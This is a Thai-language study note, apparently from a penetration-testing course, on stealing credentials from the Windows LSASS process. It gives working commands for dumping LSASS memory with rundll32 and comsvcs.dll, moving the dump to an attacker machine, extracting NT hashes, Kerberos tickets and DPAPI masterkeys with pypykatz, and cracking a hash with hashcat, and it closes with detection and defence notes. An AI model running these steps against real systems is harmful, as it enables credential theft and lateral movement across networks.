


# การโจมตี LSASS (Local Security Authority Subsystem Service)

## ภาพรวม

นอกจากการโจมตีฐานข้อมูล SAM แล้ว เรายังต้องโจมตี **LSASS** ด้วย เพราะ LSASS เป็น core process ของ Windows ที่รับผิดชอบ:

- บังคับใช้นโยบายความปลอดภัย (Security Policies)
- จัดการการยืนยันตัวตนของผู้ใช้ (User Authentication)
- **เก็บข้อมูลรับรอง (Credentials) ที่ละเอียดอ่อนไว้ใน memory**

---

## การทำงานของ LSASS เมื่อ Logon

```
WinLogon.exe → lsass.exe → Authentication Packages → NTLM/Kerberos
```

เมื่อผู้ใช้ login ครั้งแรก LSASS จะ:

1. **Cache credentials** ไว้ใน memory
2. สร้าง **access tokens**
3. บังคับใช้ **security policies**
4. เขียน log ไปยัง **Windows security log**

---

## วิธีการ Dump LSASS Memory

### เหตุผลในการ Dump แบบ Offline
- ความยืดหยุ่นในการโจมตีมากขึ้น
- ความเร็วในการโจมตีเร็วขึ้น
- ใช้เวลาน้อยลงบนระบบเป้าหมาย

---

## วิธีที่ 1: Task Manager Method

### ข้อกำหนด
- ต้องมี GUI-based interactive session
- ต้องมีสิทธิ์ administrator

### ขั้นตอน

1. เปิด **Task Manager**
2. ไปที่แท็บ **Processes**
3. หา **Local Security Authority Process**
4. คลิกขวาแล้วเลือก **Create dump file**

### ผลลัพธ์
- ไฟล์ `lsass.DMP` จะถูกสร้างใน folder `%temp%`
- ถ่ายโอนไฟล์นี้ไปยังเครื่อง attacker

---

## วิธีที่ 2: Rundll32.exe & Comsvcs.dll Method

### ข้อดี
- **เร็วกว่า** Task Manager
- **ยืดหยุ่นกว่า** เพราะทำงานผ่าน command line
- ใช้ได้กับ shell session ที่ไม่มี GUI

### ข้อเสีย
- **Anti-virus รุ่นใหม่จะตรวจจับว่าเป็นกิจกรรมที่เป็นอันตราย**

---

### ขั้นตอนการดำเนินการ

#### 2.1 หา Process ID (PID) ของ LSASS

**วิธีที่ 1: ใช้ CMD**

```cmd
C:\Windows\system32> tasklist /svc
```

**ผลลัพธ์:**

```
Image Name                     PID Services
========================= ======== ============================================
lsass.exe                      672 KeyIso, SamSs, VaultSvc
```

**วิธีที่ 2: ใช้ PowerShell**

```powershell
PS C:\Windows\system32> Get-Process lsass
```

**ผลลัพธ์:**

```
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass
```

#### 2.2 สร้าง Dump File

**ใช้ PowerShell (ต้องมี elevated session):**

```powershell
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

**คำอธิบายคำสั่ง:**
- `rundll32.exe`: เรียกใช้ exported function จาก DLL
- `comsvcs.dll`: DLL ที่มีฟังก์ชัน MiniDumpWriteDump
- `MiniDump`: ชื่อฟังก์ชันที่เรียกใช้
- `672`: PID ของ LSASS
- `C:\lsass.dmp`: path ปลายทาง
- `full`: ประเภทของ dump (full dump)

### หมายเหตุสำคัญ
- AV รุ่นใหม่จะ block คำสั่งนี้
- อาจต้องใช้เทคนิค AV bypassing (อยู่นอก scope ของโมดูลนี้)

---

## การถ่ายโอนไฟล์

ใช้วิธีเดียวกับที่กล่าวไว้ใน section "Attacking SAM":
- สร้าง SMB share ด้วย smbserver
- ใช้คำสั่ง `move` ย้ายไฟล์ไปยัง share

---

## การ Extract Credentials ด้วย Pypykatz

### ความหมาย
- **Pypykatz** = Mimikatz ที่เขียนด้วย Python
- รันได้บน Linux-based attack hosts
- ทำงานแบบ offline (ไม่ต้องรันบนเครื่อง target)

### ข้อดี
- Mimikatz รันได้เฉพาะบน Windows เท่านั้น
- Pypykatz ใช้งานได้บน Linux
- วิเคราะห์ได้แบบ offline จากไฟล์ dump

---

### การใช้งาน Pypykatz

```bash
pypykatz lsa minidump /home/peter/Documents/lsass.dmp
```

**พารามิเตอร์:**
- `lsa`: ระบุว่าเป็น LSA subsystem
- `minidump`: ระบุชนิดของ data source
- `/home/peter/Documents/lsass.dmp`: path ของไฟล์ dump

---

### ผลลัพธ์และการตีความ

```
== LogonSession ==
authentication_id 1354633 (14ab89)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
```

---

## ข้อมูลที่สำคัญที่ได้จาก Pypykatz

### 1. MSV (Microsoft Authentication Package)

```
== MSV ==
    Username: bob
    Domain: DESKTOP-33E7O54
    LM: NA
    NT: 64f12cddaa88057e06a81b54e73b949b
    SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
    DPAPI: NA
```

**คำอธิบาย:**
- **MSV** = authentication package ที่ LSA ใช้ validate logon attempts กับ SAM database
- ได้ **SID, Username, Domain, NT hash, SHA1 hash**
- NT hash สามารถนำไปแคร็กหรือใช้ Pass-the-Hash ได้

---

### 2. WDIGEST

```
== WDIGEST [14ab89]==
    username bob
    domainname DESKTOP-33E7O54
    password None
    password (hex)
```

**คำอธิบาย:**

| คุณสมบัติ | รายละเอียด |
|-----------|------------|
| **ระบบที่เปิดใช้ default** | Windows XP - Windows 8<br>Windows Server 2003 - Server 2012 |
| **ระบบรุ่นใหม่** | ปิดใช้งาน default |
| **วิธีเก็บ password** | **Clear-text** (ข้อความธรรมดา) |
| **ความเสี่ยง** | ถ้า WDIGEST เปิดอยู่ จะเห็น password แบบ clear-text |

**หมายเหตุ:** Microsoft ได้ออก security update แก้ไขปัญหานี้แล้ว

---

### 3. Kerberos

```
== Kerberos ==
    Username: bob
    Domain: DESKTOP-33E7O54
```

**คำอธิบาย:**
- **Kerberos** = network authentication protocol ใช้ใน Active Directory
- Domain user accounts ได้รับ **tickets** เมื่อ authenticate กับ AD
- Ticket ใช้เข้าถึง shared resources โดยไม่ต้องพิมพ์ credentials ทุกครั้ง
- LSASS cache: **passwords, ekeys, tickets, pins** ที่เกี่ยวข้องกับ Kerberos
- สามารถ extract และใช้เข้าถึงระบบอื่นใน domain เดียวกันได้

---

### 4. DPAPI (Data Protection API)

```
== DPAPI [14ab89]==
    luid 1354633
    key_guid 3e1d1091-b792-45df-ab8e-c66af044d69b
    masterkey e8bc2faf77e7bd1891c0e49f0dea9d447a491107ef5b25b9929071f68db5b0d55bf05df5a474d9bd94d98be4b4ddb690e6d8307a86be6f81be0d554f195fba92
    sha1_masterkey 52e758b6120389898f7fae553ac8172b43221605
```

**คำอธิบาย:**
- Pypykatz และ Mimikatz สามารถ extract **DPAPI masterkey** ของ logged-on users
- Masterkeys ใช้ **decrypt secrets** ของแอปพลิเคชันที่ใช้ DPAPI
- ส่งผลให้ได้ credentials ของบัญชีต่างๆ

**ตัวอย่างการใช้งาน:**
- Chrome passwords
- Outlook passwords
- Saved RDP credentials
- Credential Manager

---

## การแคร็ก NT Hash ด้วย Hashcat

### คำสั่ง

```bash
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

### ผลลัพธ์

```
64f12cddaa88057e06a81b54e73b949b:Password1
```

**สถานะ:** Cracked สำเร็จ! 🎯

---

## สรุปขั้นตอนการโจมตี LSASS

```
1. Dump LSASS Memory
   ├─ Task Manager (GUI)
   └─ rundll32 + comsvcs.dll (CLI)
          ↓
2. Transfer dump file to attacker
   └─ SMB share / other methods
          ↓
3. Extract credentials with Pypykatz
   ├─ MSV (NT hashes)
   ├─ WDIGEST (clear-text passwords)
   ├─ Kerberos (tickets)
   └─ DPAPI (masterkeys)
          ↓
4. Crack hashes with Hashcat
   └─ mode 1000 for NT hashes
          ↓
5. Use credentials for lateral movement
```

---

## ข้อดีของการโจมตี LSASS

| ข้อดี | รายละเอียด |
|-------|------------|
| **ได้หลายชนิด credentials** | NT hashes, clear-text passwords, Kerberos tickets |
| **Offline analysis** | ไม่ต้องอยู่บนเครื่อง target นาน |
| **Lateral movement** | ใช้ credentials โจมตีเครื่องอื่นใน network |
| **Domain access** | ได้ Kerberos tickets สำหรับ domain resources |

---

## ข้อควรระวัง

### การตรวจจับ
- AV/EDR รุ่นใหม่ตรวจจับได้ทันที
- LSASS dump เป็น technique ที่รู้จักกันดี
- Security logs จะบันทึกการเข้าถึง LSASS

### มาตรการป้องกัน
- Credential Guard (Windows 10/Server 2016+)
- Protected Process Light (PPL)
- Windows Defender Credential Guard
- LSASS Protection

